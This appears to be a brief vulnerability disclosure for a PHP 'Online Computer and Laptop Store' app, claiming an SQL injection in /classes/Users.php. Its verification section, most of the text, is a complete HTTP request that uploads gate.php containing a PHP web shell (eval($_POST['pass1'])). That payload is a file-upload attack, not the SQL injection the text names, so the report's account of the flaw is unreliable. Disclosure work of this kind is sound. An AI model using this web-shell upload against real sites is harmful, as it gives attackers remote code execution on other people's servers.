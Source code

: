 

Online Computer and Laptop Store using an SQL injection vulnerability can be exploited by an attacker to steal information or compromise a database without authentication.





Source code address：https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html



The vulnerability is located in the /classes/Users.php file, and the behavior of concatenating SQL statements with parameters can be seen in the code snippet.

![image-20250326225558548](images/image-20250326225558548.png)



Vulnerability verification：

```
POST /php-ocls/classes/Users.php?f=save HTTP/1.1
Host: 192.168.80.152
Content-Length: 719
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhRN9PALikUI2sZ8x
Origin: http://192.168.80.152
Referer: http://192.168.80.152/php-ocls/admin/?page=user
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="id"

1
------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="firstname"

Adminstrator
------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="lastname"

Admin
------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="username"

admin
------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="password"


------WebKitFormBoundaryhRN9PALikUI2sZ8x
Content-Disposition: form-data; name="img"; filename="gate.php"
Content-Type: application/octet-stream

<?php
eval($_POST["pass1"]);

------WebKitFormBoundaryhRN9PALikUI2sZ8x--

```

 ![image-20250326225128510](images/image-20250326225128510.png)



































